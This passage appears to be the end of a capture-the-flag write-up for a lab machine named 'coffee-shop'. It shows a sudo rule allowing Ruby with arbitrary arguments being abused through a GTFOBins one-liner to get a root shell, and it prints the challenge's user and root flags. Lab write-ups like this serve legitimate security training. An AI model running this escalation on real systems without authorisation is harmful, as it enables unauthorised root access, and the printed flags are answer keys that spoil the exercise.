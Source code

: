 Grabbing the use flag:

```bash
shopadmin@coffee-shop:~$ cat user.txt	
DR1NK1NG-C0FF33-4T-N1GHT
```
### Privilege Escalation - Root

Issuing the command `sudo -l`, we can see what commands we can run as `sudo`:

```bash
shopadmin@coffee-shop:~$ sudo -l
Matching Defaults entries for shopadmin on coffee-shop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User shopadmin may run the following commands on coffee-shop:
    (root) NOPASSWD: /usr/bin/ruby * /opt/shop.rb
```

Looks like we can run Ruby with any thing after it with the `/opt/shop.rb`.

I will use this as a reference: https://gtfobins.github.io/gtfobins/ruby/

![[Pasted image 20240730182429.png]]

In this demonstration, I will use bash instead of sh:

```bash
shopadmin@coffee-shop:~$ sudo /usr/bin/ruby -e 'exec "/bin/bash"' /opt/shop.rb
<do /usr/bin/ruby -e 'exec "/bin/bash"' /opt/shop.rb
root@coffee-shop:/home/shopadmin# whoami && id
whoami && id
root
uid=0(root) gid=0(root) groups=0(root)
```

Grabbing the root flag:

```bash
root@coffee-shop:/home/shopadmin# cd /root
cd /root
root@coffee-shop:~# ls -lash
ls -lash
total 64K
4.0K drwx------  6 root root 4.0K Feb  3 10:31 .
4.0K drwxr-xr-x 19 root root 4.0K Jan  3  2024 ..
8.0K -rw-------  1 root root 4.3K Feb  3 10:32 .bash_history
4.0K -rw-r--r--  1 root root 3.1K Oct 15  2021 .bashrc
4.0K drwx------  2 root root 4.0K Jan  3  2024 .cache
4.0K -rw-------  1 root root   20 Jan  3  2024 .lesshst
4.0K drwxr-xr-x  3 root root 4.0K Jan  3  2024 .local
4.0K -rw-------  1 root root 1.6K Jan  3  2024 .mysql_history
4.0K -rw-r--r--  1 root root  161 Jul  9  2019 .profile
4.0K -rw-r--r--  1 root root   25 Feb  3 10:31 root.txt
4.0K drwx------  3 root root 4.0K Jan  3  2024 snap
4.0K drwx------  2 root root 4.0K Jan  3  2024 .ssh
   0 -rw-r--r--  1 root root    0 Jan  3  2024 .sudo_as_admin_successful
 12K -rw-------  1 root root 9.7K Feb  3 10:31 .viminfo
root@coffee-shop:~# cat root.txt
cat root.txt
C4FF3331N-ADD1CCCTIONNNN
```